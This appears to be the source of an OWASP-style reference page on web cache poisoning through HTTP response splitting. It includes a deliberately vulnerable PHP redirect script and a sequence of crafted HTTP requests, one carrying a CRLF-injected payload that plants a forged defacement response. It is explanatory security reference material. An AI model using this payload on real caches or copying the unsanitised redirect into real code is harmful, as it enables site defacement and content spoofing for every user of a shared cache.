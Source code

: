 ```yaml
---

layout: col-sidebar
title: Cache Poisoning
author: Weilin Zhong, Rezos
contributors: Pshanks, KristenS, Ingo86, Achim, kingthorin
permalink: /attacks/Cache_Poisoning
tags: attack, Cache Poisoning

---
```


{% include writers.html %}

## Description

The impact of a maliciously constructed response can be magnified if it
is cached either by a web cache used by multiple users or even the
browser cache of a single user. If a response is cached in a shared web
cache, such as those commonly found in proxy servers, then all users of
that cache will continue to receive the malicious content until the
cache entry is purged. Similarly, if the response is cached in the
browser of an individual user, then that user will continue to receive
the malicious content until the cache entry is purged, although only the
user of the local browser instance will be affected.

To successfully carry out such an attack, an attacker:

- Finds the vulnerable service code, which allows them to fill the HTTP header field with many headers.
- Forces the cache server to flush its actual cache content, which we want to be cached by the servers.
- Sends a specially crafted request, which will be stored in cache.
- Sends the next request. The previously injected content stored in cache will be the response to this request.

This attack is rather difficult to carry out in a real environment. The
list of conditions is long and hard to accomplish by the attacker.
However it's easier to use this technique than [Cross-User
Defacement](Cross-User_Defacement).

A Cache Poisoning attack is possible because of [HTTP Response
Splitting](HTTP_Response_Splitting) and flaws in the web
application. It is crucial from the attacker's point of view that the
application allows for filling the header field with more than one
header using CR (Carriage Return) and LF (Line Feed) characters.

## Examples

We have found a web page, which gets its service name from the "page"
argument and then redirects (302) to this service.

e.g. `http://testsite.com/redir.php?page=http://other.testsite.com/`

And exemplary code of the redir.php:

```
rezos@dojo ~/public_html $ cat redir.php
<?php
header ("Location: " . $_GET['page']);
?>
```

Crafting appropriate request:

1. Remove page from the cache

```http
GET http://testsite.com/index.html HTTP/1.1
Pragma: no-cache
Host: testsite.com
User-Agent: Mozilla/4.7 [en] (WinNT; I)
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg,
image/png, */*
Accept-Encoding: gzip
Accept-Language: en
Accept-Charset: iso-8859-1,*,utf-8
```

HTTP header fields `Pragma: no-cache` and 'Cache-Control: no-cache' should 
remove the page from cache (if the page is stored in cache, obviously).

2. Using HTTP Response Splitting we force cache server to generate two responses to one request

```http
GET http://testsite.com/redir.php?site=%0d%0aContent-
Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aLast-
Modified:%20Mon,%2027%20Oct%202009%2014:50:18%20GMT%0d%0aConte
nt-Length:%2020%0d%0aContent-
Type:%20text/html%0d%0a%0d%0a<html>deface!</html> HTTP/1.1
Host: testsite.com
User-Agent: Mozilla/4.7 [en] (WinNT; I)
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg,
image/png, */*
Accept-Encoding: gzip
Accept-Language: en
Accept-Charset: iso-8859-1,*,utf-8
```

We are intentionally setting the future time (in the header it's set to
27 October 2009) in the second response HTTP header "Last-Modified" to
store the response in the cache.

We may get this effect by setting the following headers:

- Last-Modified (checked by the If-Modified-Since header)
- ETag (checked by the If-None-Match header)

3. Sending request for the page, which we want to replace in the cache of the server

```http
GET http://testsite.com/index.html HTTP/1.1
Host: testsite.com
User-Agent: Mozilla/4.7 [en] (WinNT; I)
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg,
image/png, */*
Accept-Encoding: gzip
Accept-Language: en
Accept-Charset: iso-8859-1,*,utf-8
```

In theory, the cache server should match the second answer from the
request #2 to the request #3. In this way we've replaced the cache
content.

The rest of the requests should be executed during one connection (if
the cache server doesn't require a more sophisticated method to be
used), possibly immediately one after another.

It may appear problematic to use this attack as a universal technique for
cache poisoning. It's due to cache server's different connection model
and request processing implementations. What does it mean? That for
example effective method to poison Apache 2.x cache with mod_proxy and
mod_cache modules won't work with Squid.

A different problem is the length of the URI, which sometime makes it
impossible to put the necessary response header, which would next be
matched to the request for the poisoned page.

The request examples used are from the Amit Klein paper referenced below, which were modified on the
needs of the article.

More information can be found in this document, which focuses on these
kinds of attacks [by Amit Klein, Director of Security and Research](https://packetstormsecurity.com/files/32815/Divide-and-Conquer-HTTP-Response-Splitting-Whitepaper.html)
